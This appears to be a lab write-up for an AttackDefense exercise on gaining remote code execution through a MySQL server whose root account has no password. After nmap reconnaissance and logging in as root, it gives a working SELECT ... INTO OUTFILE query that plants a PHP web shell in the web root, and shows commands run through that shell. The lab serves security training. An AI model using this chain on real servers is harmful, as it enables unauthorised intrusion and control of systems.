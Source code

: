 ﻿![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.001.png)

![ref1]
<table><tr><th colspan="1"><b>Name</b> </th><th colspan="1">RCE via MySQL </th></tr>
<tr><td colspan="1" rowspan="2"><b>URL</b> </td><td colspan="1" valign="bottom"><https://attackdefense.com/challengedetails?cid=2127>  </td></tr>
<tr><td colspan="1"></td></tr>
<tr><td colspan="1"><b>Type</b> </td><td colspan="1">OWASP Top 10 : Security Misconfiguration </td></tr>
</table>

**Important Note:** This document illustrates all the important steps required to complete this lab. This  is  by  no  means  a  comprehensive  step-by-step  solution for this exercise. This is only provided as a reference to various commands needed to complete this exercise and for your further research on this topic. Also, note that the IP addresses and domain names might be different in your lab.  

**Step 1:** Identifying IP address of the target machine **Command:** ip addr 

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.003.jpeg)

The IP address of the attacker machine is 192.173.248.2. The target machine is located at the IP address 192.173.248.3 

**Step 2:** Identify the open ports on the target machine.  ![ref2]**Command:** nmap 192.173.248.3 

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.005.png)

Port 80 and 3306 are open on the target machine.  

**Step 3:** Accessing the web application in Mozilla Firefox.  

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.006.jpeg)

**Step 4:** Click on the wappalyzer plugin from the address bar, ![ref2]


![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.007.png)

The web application is based on PHP.  

**Step 5:** Checking the nmap scripts available for mysql service.  **Command:** ls -l /usr/share/nmap/scripts | grep mysql  

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.008.jpeg)

A script is available to check if MySQL service is configured without password or not. ![ref2]**Step 6:** Using the nmap script to check for empty password 

**Command:** nmap --script mysql-empty-password -p 3306 192.173.248.3 

![ref1]

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.009.jpeg)

MySQL root user does not have any password. **Step 7:** Logging into MySQL service.  **Command:** mysql -u root -h 192.173.248.3 

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.010.jpeg)

**Step 8:** Writing a file in /tmp directory.  

**MySQL Query:** select 'Hello world' into outfile '/tmp/temp' from mysql.user limit 1; ![ref2]

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.011.png)

Since a file can be created, it means that MySQL service can write into arbitrary directories provided the directory is world writable.  

**Step 9:** Writing a PHP web shell into the web root directory.  

**MySQL Query:** select '<?php $output=shell\_exec($\_GET["cmd"]);echo "<pre>".$output."</pre>"?>' into outfile '/var/www/html/shell.php' from mysql.user limit 1; 

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.012.png)

**Step 10:** Access the PHP web shell and pass the command to be executed in "cmd" parameter.  **Command:** id 

**URL:** http://192.173.248.3/shell.php?cmd=id 

![](Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.013.png)

**References:**  

1\. Nmap MySQL script: mysql-empty-password ![ref2]

(<https://nmap.org/nsedoc/scripts/mysql-empty-password.html>)  

[ref1]: Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.002.png
[ref2]: Aspose.Words.5dc03f19-7e70-4624-a5e1-9fe9d72d3ed1.004.png

